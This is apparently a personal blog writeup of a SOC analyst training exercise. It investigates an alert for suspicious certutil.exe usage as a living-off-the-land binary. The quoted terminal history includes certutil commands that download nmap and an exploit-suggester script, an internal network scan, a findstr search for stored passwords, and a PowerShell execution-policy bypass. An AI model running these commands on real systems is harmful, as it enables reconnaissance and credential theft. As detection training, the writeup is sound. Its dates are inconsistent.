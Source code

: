 ```yaml
---
title: SOC163 - Suspicious Certutil.exe Usage
tags:
  - writeup
date: "2023-21-04"
# Optional external URL for project (replaces project detail page).
external_link: ''

reading_time: false  # Show estimated reading time?
share: false  # Show social sharing links?
profile: false  # Show author profile?
comments: false  # Show comments?
---
```


# Summary

In this alert we investigate a suspicious usage of a Windows binary called **certutil.exe**. The main focus of this exercise was to learn about LolBins (Living-off-the-land binaries).

> A Living-off-the-land binaries is any binary supplied by the operating system that is normally used for legitimate purposes but can also be abused by malicious actors. Several default system binaries have unexpected side effects, which may allow attackers to hide their activities post-exploitation.

# Alert 

```
EventID : 113
Event Time : Mar, 01, 2022, 11:06 AM
Rule : SOC163 - Suspicious Certutil.exe Usage
Level : Security Analyst
Hostname : EricProd
IP Address : 172.16.17.22
Related Binary : certutil.exe
Binary Path : C:/Windows/System32/certutil.exe
Command Line : certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-win32.zip nmap.zip
Alert Trigger Reason : -f parameter with certutil.exe
EDR Action : Allowed
```

# Detection

We can look at the terminal history of the host EricProd which caused the alarm. to be created in “Endpoint Security”.  As you can see in the table below “nmap” and the “windows-exploit-suggester”  were downloaded.

| EVENT      | COMMAND LINE                                                                                                                                             |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 01.03.2021 | `whoami`                                                                                                                                                 |
| 01.03.2021 | `net user`                                                                                                                                               |
| 01.03.2021 | `net user`                                                                                                                                               |
| 01.03.2021 | `ipconfig`                                                                                                                                               |
| 01.03.2021 | `ipconfig /all`                                                                                                                                          |
| 01.03.2021 | `net Localgroup`                                                                                                                                         |
| 01.03.2021 | `net start`                                                                                                                                              |
| 01.03.2021 | `netstat`                                                                                                                                                |
| 01.03.2021 | `tasklist`                                                                                                                                               |
| 01.03.2021 | `systeminfo`                                                                                                                                             |
| 01.03.2021 | `certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip`                                                                    |
| 01.03.2021 | `certutil.exe -urlcache -split -f https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py check.py` |
| 01.03.2021 | `nmap -sV 192.168.0.0/24 -p 80`                                                                                                                          |
| 01.03.2021 | `python3 check.py`                                                                                                                                       |
| 01.03.2021 | `arp -a`                                                                                                                                                 |
| 01.03.2021 | `findstr /si pass *.txt \| *.xml \| *.ini`                                                                                                               |
| 01.03.2021 | `C:/powershell.exe -nop -exec bypass`                                                                                                                    |

# Analysis

By searching was certutil does we discovered that it is considered a legal binary offered by Windows OS. The user run certutil to download a version of nmap and later on he started performing a scan of the internal network. The scan was performed on the subnet: 192.168.0.0/24 looking at services running specifically on port 80. 

```
$ certutil.exe -urlcache -split -f https://nmap.org/dist/nmap-7.92-setup.exe nmap.zip

$ nmap -sV 192.168.0.0/24 -p 80
```
# Conclusion

The alert was a true positive. The purpose of suspicious activities performed with legal binaries for this incident was to download the tool called nmap. No malware was detected on the machine so we can assume it has been the user of the system who run the terminal commands.


[Heartstone back home](https://matteogreek.github.io/)